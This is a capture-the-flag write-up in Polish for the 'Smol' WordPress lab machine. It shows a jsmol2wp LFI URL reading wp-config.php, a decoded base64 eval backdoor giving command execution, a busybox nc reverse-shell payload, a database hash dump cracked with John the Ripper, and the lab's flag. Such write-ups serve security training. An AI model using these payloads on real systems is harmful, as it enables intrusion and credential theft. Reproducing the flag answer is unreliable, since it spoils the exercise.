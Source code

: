 # Smol
## Zadanie

At the heart of Smol is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

Quick Tips: Do you know that on computers without GPU like the AttackBox, John The Ripper is faster than Hashcat?

Note: Please allow 4 minutes for the VM to fully boot up.

## Kroki

Zacznijmy od wejścia na stronę, na początku nie odpowiada ale gdy dodamy sobie ją komendą `echo "10.10.62.197 www.smol.thm" >> /etc/hosts`, poprawnie nas przenosi,

Wygląda na standardową stronę na WordPress, użyjmy nmap i ffuf w celu wstępnego rekonesansu.

Wyniki nmap - SSH i HTTP standardowo otwarte:

![alt text](image.png)

FFUF zwróciło standardowe WordPressowe podstrony. Jak wiemy z polecenia musimy znaleźć podatny plugin, można to łatwo zrobić używając gobustera i wordlisty z nazwami pluginów. Przeszukujemy wtedy lokalizację `/wp-content/plugins`

![alt text](image-1.png)

Znaleźliśmy 2 pluginy *jsmol2wp* i *akismet*

Dla jsmol2wp istnieje podatność LFI Path Traversal (CVE-2018-20463).

Bazując na PoC z exploit-db, otwieramy plik `wp-config.php`.
https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt

![alt text](image-2.png)

Bingo! Znaleźliśmy hasło! Zalogujmy się nim teraz przez `/wp-admin.php`.

Przeglądając zakładkę Pages znalazłem tam ciekawą listę *Webmaster tasks*, która była prywatna, po jej przejrzeniu okazało się że odnosi się ona do sprawdzenia kodu pluginu "Hello Dolly", więc akismet okazał się być FP.

![alt text](image-3.png)

Musimy teraz znów wykorzystać podatność LFI aby dostać się do kodu hello dolly, w tym celu otwieramy poniższy URL:
`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php`

![alt text](image-4.png)

widzimy ciekawą linijkę kodu:
`eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));`
Po zdekodowaniu to będzie:
`eval("if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }")`
Gdy przetłumaczymy hexy otrzymamy:
`eval("if (isset($_GET["cmd"])) { system($_GET["cmd"]); }")`
Czyli mamy podatność RCE w parametrze CMD, plugin działa pod index.php więc naszym PoC jest:
`http://www.smol.thm/wp-admin/index.php?cmd=ls`

![alt text](image-5.png)

Od razu próbujemy Rev Shella, po kilku testach zadziałał BusyBox nc payload:
`busybox nc <IP> <PORT> -e sh`

Ulepszamy shella komendą `python3 -c 'import pty; pty.spawn("/bin/bash")'`

![alt text](image-6.png)

Następnie łączymy się z bazą danych credentialami z wp-config.php.
Potem wyciągamy sobie rekordy z bazy wp_users
`SELECT * FROM wp_users;`

Otrzymujemy tym samy hash'e haseł które scrackujemy sobie używając JTR zgodnie ze wskazówką
![alt text](image-7.png)

Wrzucamy je do pliku hash.txt i odpalamy poniższą komendę:
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Po chwii uzyskujemy hasło dla użytkownika diego. Logujemy się do niego za pomocą `su diego` i pierwsza flaga jest nasza!

![alt text](image-8.png)

## Flaga

Flaga: **45edaec653ff9ee06236b7ce72b86963**